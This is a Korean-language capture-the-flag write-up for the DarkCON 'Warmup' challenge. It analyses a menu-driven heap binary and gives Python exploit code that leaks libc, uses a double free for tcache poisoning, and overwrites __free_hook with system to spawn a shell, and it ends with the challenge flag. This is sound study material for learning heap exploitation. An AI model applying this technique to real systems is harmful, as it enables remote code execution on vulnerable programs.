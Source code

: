 # [DarkCON CTF] Warmup

## Info

+ 30 solves / 482 points

warm up yourself and get the flag!

## Summary

+ double free
+ tcache poisoning
+ hook overwrite

## File

+ Arch : x86-64
+ Library : dynamically linked (libc6_2.27-3ubuntu1.2_amd64)

## Checksec

+ CANARY : Enabled
+ FORTIFY : Disabled
+ NX : Enabled
+ PIE : Disabled
+ RELRO : Partial

## Description

전형적인 `menu` 형식의 문제이다.
문제를 해결하기 위해서 알아야 할 함수는 총 3가지가 있다.

+ main

_reloc.strcpy의 주소를 출력해준다.

+ create

note index : [0, 0x10)

note size : (0,0x20]

malloc()을 호출하고 할당된 힙에 내용을 입력받는다.

+ delete

free()를 호출하고 테이블에 적힌 주소를 초기화하지 않고 그냥 리턴한다.

## Exploit

**Leak libc address**

```python
p.recvuntil(": ")
strcpy = int(p.recv(14),16)
libc = strcpy - 0xb65b0
system = libc + l.symbols["system"]
free_hook = libc + l.symbols["__free_hook"]
```

main에서 주어지는 주소가 strcpy가 아니라 __strcpy_sse2라는 점을 알아낸다면 라이브러리 주소를 쉽게 구할 수 있다.

**Overwrite free_hook**

```python
delete(0)
delete(0)
create(0, 0x10, p64(free_hook))
create(1, 0x10, b"/bin/sh\x00")
create(2, 0x10, p64(system))
delete(1)
```

delete() 함수가 주소를 초기화하지 않기 때문에 단순히 같은 주소를 연속으로 두 번 해제하는 것으로 double free를 유도할 수 있다. 라이브러리 버전이 < 2.29이므로 tcache에 대한 double free 검증이 존재하지 않는다.

이제 free_hook을 system()의 주소로 덮은 후, delete()를 통해 free("/bin/sh")를 호출하면 system("/bin/sh")가 대신 호출되어 쉘을 취득할 수 있다.

## Flag

+ darkCON{shrtflg}
